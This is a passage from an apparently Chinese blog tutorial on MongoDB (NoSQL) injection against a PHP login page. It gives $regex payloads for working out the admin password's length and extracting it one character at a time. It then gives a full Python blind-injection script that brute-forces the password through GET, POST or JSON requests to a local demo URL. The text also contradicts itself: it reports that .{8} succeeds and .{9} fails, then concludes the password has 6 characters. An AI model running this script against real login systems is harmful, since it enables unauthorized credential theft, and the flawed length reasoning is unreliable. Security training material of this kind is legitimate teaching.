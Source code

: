 ```php
        echo 'password:' . $user['password'] . '<br>';
    }
}
else{
    echo 'Login Failed';
}
?>
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/2233fe56eee9410dbf4961d668342f90.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBASDNybWVzazF0,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)
![在这里插入图片描述](https://img-blog.csdnimg.cn/9d6cb26455c64b6da4161c7b5ec408dc.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBASDNybWVzazF0,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

- 当 `password[$regex]=.{8}` 时可以成功登录，但在 `password[$regex]=.{9}` 时登录失败，说明 admin 用户的密码长度为 6
- 当知道 password 的长度之后便可以逐位提取 password 的字符了

```sql
username=admin&password[$regex]=a.{7}
或
username=admin&password[$regex]=^a
```

- Nosql 盲注脚本

```python
import requests
import string

password = ''
url = 'http://127.0.0.1/html/demo.php'

while True:
    for c in string.printable:
        if c not in ['*', '+', '.', '?', '|', '#', '&', '$']:
            
            # When the method is GET
            get_payload = '?username=admin&password[$regex]=^%s' % (password + c)
            # When the method is POST
            post_payload = {
                "username": "admin",
                "password[$regex]": '^' + password + c
            }
            # When the method is POST with JSON
            json_payload = """{"username":"admin", "password":{"$regex":"^%s"}}""" % (password + c)
            #headers = {'Content-Type': 'application/json'}
            #r = requests.post(url=url, headers=headers, data=json_payload)    # 简单发送 json
            
            r = requests.post(url=url, data=post_payload)
            if 'Login Success' in r.text:
                print("[+] %s" % (password + c))
                password += c
```
# Nodejs 中的 MongoDB 注入
